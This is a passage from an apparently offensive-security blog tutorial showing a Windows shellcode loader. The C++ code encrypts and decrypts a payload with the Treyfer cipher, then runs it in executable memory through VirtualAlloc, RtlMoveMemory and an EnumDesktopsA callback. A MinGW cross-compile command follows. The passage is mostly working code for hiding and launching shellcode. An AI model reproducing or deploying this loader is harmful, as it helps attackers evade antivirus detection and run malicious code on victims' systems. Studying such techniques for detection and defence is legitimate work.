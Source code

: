 ```cpp
  // encrypt the padded shellcode
  for (int i = 0; i < pad_len; i += BLOCK_SIZE) {
    treyfer_encrypt(&padded[i], key);
  }

  printf("encrypted payload:\n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  // decrypt the padded shellcode
  for (int i = 0; i < pad_len; i += BLOCK_SIZE) {
    treyfer_decrypt(&padded[i], key);
  }

  printf("decrypted payload:\n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  // executing the decrypted payload in memory
  LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, pad_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

As usual some printing logic is just for checking correctness of logic and running payload via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html).      

### demo

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![cryptography](/assets/images/140/2024-11-30_14-02.png){:class="img-responsive"}      